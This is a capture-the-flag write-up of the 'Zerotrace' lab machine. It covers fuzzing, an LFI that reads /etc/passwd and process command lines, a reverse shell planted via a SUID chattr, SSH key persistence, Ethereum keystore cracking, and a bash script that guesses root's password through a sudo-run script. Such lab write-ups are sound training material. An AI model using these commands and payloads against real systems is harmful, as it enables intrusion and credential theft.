







This writeup describes the resolution of the **Zerotrace** machine created by [suraxddq](https://byte-mind.net/). It is the first writeup on my blog that does not belong to a machine created by me. I hope it helps you.

## Table of Contents

## Enumeration

### Nmap

We quickly scan all ports with nmap.

```bash
nmap -p- -Pn -n -sS 192.168.1.187
```


We observe three open ports: 22, 80, and 8000. We perform a more detailed scan to identify the services, versions, and possible attack vectors using nmap scripts.

```bash
nmap -p22,80,8000 -sVC -Pn -n 192.168.1.187 -o nmap.txt
```


We can observe that the operating system is `Debian`, port **22** corresponds to the `SSH` service with `OpenSSH`, port **80** hosts an `http` website with `nginx`, and port **8000** seems to be an `FTP` service implemented with `pyftpdlib`. The versions are current and do not present apparent vulnerabilities.

### Manual Enumeration

The manual enumeration performed is summarized below:

I access the website, check the code where a comment about the template used appears, download the complete website, and also download from the internet the template used for the site's creation. We apply a diff to the files of the template used with the files of the website downloaded from the victim machine, check the differences, and there is nothing important.

I also tried to access the FTP service without a user and with the `anonymous` user, but I did not succeed.

### Fuzzing

First, I tried to find something with ffuf and gobuster, using the same dictionary.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.1.187/ -x .pcap,.php,.txt,.zip,.db,.htm,.html,.phar,.db,.sql,.sql.gz,.sql.zip
```

After several unsuccessful attempts, I tried different techniques such as `HTTP Request smuggling`, analyzed potential vulnerabilities in the service versions, and executed the `strings` command on the OVA file, which allowed me to discover relevant information like the system users. Faced with the lack of progress, I decided to ask suraxddq for a hint.


With the hint "*And if you don't see it... .*" it helped me to continue. We search for all hidden files and folders that start with a dot `.` using `ffuf`.

```bash
ffuf -u http://192.168.1.187/.FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "User-Agent: Mozilla/5.0" -fs 153 -t 40
```



We found the folder `/.admin`. We continue fuzzing inside this folder.

```bash
gobuster dir -u http://192.168.1.187/.admin/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .pcap,.php,.txt,.zip,.db,.htm,.html,.phar,.db,.sql,.sql.gz,.sql.zip
```


We found the file `/.admin/tool.php`. Being a PHP file that does not display any content (0 characters), we proceeded to perform parameter fuzzing for both POST and GET to discover possible entry vectors.

POST parameter fuzzing.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php" -X POST -d "FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```



Not finding results with POST parameter fuzzing, we proceeded to perform GET parameter fuzzing.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```


We found the `file` parameter. By accessing the URL `/.admin/tool.php?file=/etc/passwd`, we can see the contents of the `/etc/passwd` file, which contains the list of system users.



We use a [wordlist for LFI](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/refs/heads/main/LFI-WordList-Linux) from DragonJAR and can only obtain the files `/etc/passwd` and `/etc/hosts`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=FUZZ" -w ./LFI-WordList-Linux -fs 0
```




We tried to access the files in the `/proc` directory of Linux, where we can see the commands executed by the active services in `/proc/[PID]/cmdline`.

First, we prepared a list of 5000 PIDs.

```bash
seq 1 5000 > pids.txt
```

We use ffuf to discover which PIDs allow us to obtain information and save the results in the file `cmd-ffuf.txt`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=/proc/FUZZ/cmdline" -w pids.txt  -fs 0 -o cmd-ffuf.txt
```

Since we have all the URLs found in an XML saved in the file cmd-ffuf.txt, we use it to make a request to all the URLs with information and save it in a file with the following one-line script.

```bash
jq -r '.results[].url' cmd-ffuf.txt | xargs -P4 -I {} sh -c 'echo "\n************* {}"; curl -s "{}" | tr "\0" " "'  > resultados.txt
```

Now we can observe all the commands found on the server in the file `resultados.txt`.


We found the command that starts the `FTP` service on port `8000`, where the password used for the user `J4ckie0x17` is exposed.

## Initial Access with J4ckie0x17

With the found password for `J4ckie0x17`, we can access the FTP service on port 8000, but we do not have permissions to upload files in any of the folders, which prevents us from creating a webshell. We tried the same password on the SSH service and it indeed works, thus achieving initial access to the server.

```bash
ssh J4ckie0x17@192.168.1.187
```


## Lateral movement from J4ckie0x17 to shelldredd

We found several interesting things with the user `J4ckie0x17`.

1. The binary `/usr/bin/chattr` has the SUID bit activated, which is unusual. This binary is used to modify special attributes in ext2/ext3/ext4 file systems.

```bash
find / -type f -perm -4000 2>/dev/null
```


2. We use `pspy` to monitor the active processes and found one executed by the user `shelldredd` with the `UID` 1003, which is very suspicious.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s && chmod +x pspy64s && ./pspy64s
```



```raw
CMD: UID=1003  PID=1475  | /bin/sh -c /bin/bash /opt/.nobodyshouldreadthis/destiny
```

When examining the `destiny` binary, it seems we can modify it and it doesn't contain any script, so that process is probably showing an error. However, when trying to modify it, we won't be able to because it has the immutable flag of the EXT filesystem special attributes.

```bash
lsattr /opt/.nobodyshouldreadthis/destiny
```



We use the `chattr` binary with SUID permissions to remove the immutable flag.

```bash
chattr -i /opt/.nobodyshouldreadthis/destiny
```


Now we can modify the `destiny` file, adding a reverse shell that points to our attacking machine on port 443.

```bash
echo 'bash -i >& /dev/tcp/192.168.1.181/443 0>&1' > /opt/.nobodyshouldreadthis/destiny
```

On our attacking machine, we start a listener with netcat.

```bash
nc -lvnp 443
```

After waiting approximately one minute, we receive a reverse shell with the privileges of the user `shelldredd`.


## Lateral movement from shelldredd to ll104567

Before continuing, we install our public key in the `.ssh` directory of the user `shelldredd` to facilitate access via SSH and maintain persistence.

We use our public key.

```bash
mkdir .ssh && echo "ssh-ed25519 AAAAC.....CxOr3 kali@kali" > ./.ssh/authorized_keys && chmod 600 ./.ssh/authorized_keys
```

Now we can connect via SSH from our host to obtain a full shell and maintain persistence.

```bash
ssh shelldredd@192.168.1.187
```

We found several interesting things on the server, we have access to the home of the user `ll104567` and we observe three interesting files:

   - `guessme` executable vulnerable to a timing attack in the condition `[[ $FTP_PASS == $CLEAN_PASS ]]`, it seems to require more privileges for execution.
   - `one` a list of characters related to the **One-Punch Man** universe, completely unknown to me. With a message at the beginning that says: `Why don't we join two universes and see who's the strongest?`.
   - `user.txt` the first flag of the challenge, but without read permissions.

We also found a folder that seems to be a crypto wallet `/opt/cryptovault/ll104567` with three files:

   - `notes.txt` where there seems to be a message directed to our friend `ll104567`.
   - `secret` where there is a `json` file that appears to be the private key of a cryptowallet.
   - `why.png` image of Donald Trump, it's everywhere.

### Cracking Crypto Wallet

From our host, we copy the files from `ll104567`'s cryptovault to our machine using `scp`, since we have our public key installed.

```bash
scp -r shelldredd@192.168.1.187:/opt/cryptovault/ll104567 .
```


Following the techniques described in the analysis of vulnerabilities in Ethereum wallet keystore files, we proceeded to attempt to crack the wallet.

[Análisis Sistemático de Vulnerabilidades en Archivos Keystore de Wallets Ethereum](https://www.researchgate.net/publication/337610456_Attainable_Hacks_on_Keystore_Files_in_Ethereum_Wallets-A_Systematic_Analysis)

First, we must obtain the wallet hash using `ethereum2john`, which we will later use to crack it.

```bash
ethereum2john secret
```


We save the `hash` in a file.


We proceed to attempt to crack it with `hashcat`.

```bash
hashcat -m 15700 hash /usr/share/wordlists/rockyou.txt -w 4
```

After a waiting period, hashcat discovers the password `dragonballz` located on line 3186 of the rockyou.txt dictionary.

```bash
hashcat -m 15700 hash /usr/share/wordlists/rockyou.txt --show
```



### Password of ll104567 and dictionary

At this point, I knew it had something to do with **Dragon Ball Z** and **One-Punch Man**, two animes; I was familiar with the first, but not the second. I was creating dictionaries with the characters from both animes and testing various combinations. I even watched a YouTube video where Son Goku was fighting against One-Punch Man, but it didn't help me at all.

In the end, it was only necessary to combine the wallet password `dragonballz` with the character dictionary from the `one` file in the home directory of the user `ll104567`.

In the home directory of shelldredd, we created a dictionary with the file `/home/ll104567/one` by adding `dragonballz` at the beginning of each line.

```bash
sed 's/^/dragonballz/' ../ll104567/one > ~/diccionario.txt
```


We download the `suForce` tool from d4t4s3c, a very useful tool for brute force.

```bash
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/suForce" && chmod +x suForce 
```

and we use it with the created dictionary to try to obtain the password of the user ll104567.

```bash
./suForce -u ll104567 -w ./diccionario.txt
```


Bingo! We obtain the password for the user ll104567.

## Privilege escalation from ll104567 to root

Now that we have access as the user ll104567, we can proceed to read the user flag (user.txt) that we previously did not have permission to access.

Using `su` from the user shelldredd or accessing via `SSH` with the obtained password, we log in as the user `ll104567`.

```bash
su ll104567
```


The user `ll104567` has permissions to execute as `root` using sudo the executable `/home/ll104567/guessme` which we previously analyzed and was vulnerable.

```bash
sudo -l
```

We analyzed the `guessme` script and used ChatGPT to generate a bash script that exploits the vulnerability and guesses the password. At this point, we were a bit tired and didn't feel like writing code 😅

**getpass.sh**

```bash
#!/bin/bash
# Conjunto de caracteres a probar; puedes ampliarlo según tus necesidades.
alphabet='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_=+[]{};:,.<>/?`~'

# Variable para almacenar el prefijo encontrado (la contraseña)
password=""

# Función que ejecuta guessme con un input dado y devuelve la salida
function test_guess() {
    local guess="$1"
    # Se envía el input sin salto de línea adicional
    echo -n "$guess" | sudo /bin/bash /home/ll104567/guessme 2>/dev/null
}

echo "Iniciando extracción de contraseña..."

while true; do
    # Primero, probamos si el prefijo actual ya es la contraseña completa.
    output=$(test_guess "$password")
    if [[ "$output" == *"Password matches!"* ]]; then
        echo "¡Contraseña encontrada: $password!"
        break
    fi

    found=0
    # Iteramos por cada carácter del alfabeto
    for (( i=0; i<${#alphabet}; i++ )); do
        c="${alphabet:$i:1}"
        guess="${password}${c}*"
        output=$(test_guess "$guess")
        if [[ "$output" == *"Password matches!"* ]]; then
            password="${password}${c}"
            echo "Caracter encontrado: '$c' -> Contraseña parcial: $password"
            found=1
            break
        fi
    done

    # Si no se encontró extensión, se detiene el script.
    if [ $found -eq 0 ]; then
        echo "No se pudo extender la contraseña. Contraseña parcial: $password"
        break
    fi
done
```

We copy the code and create a file in the user's home directory, assign it execution permissions, and run it.


Once the `root` user's password is obtained through the script, we use the `su` command to switch to the root user. Finally, we read the contents of the `root.txt` file, which contains the system's final flag.


I thank suraxddq for this excellent virtual machine. Through this lab, I have gained valuable knowledge about the security of Ethereum wallets and the vulnerabilities associated with their implementation.

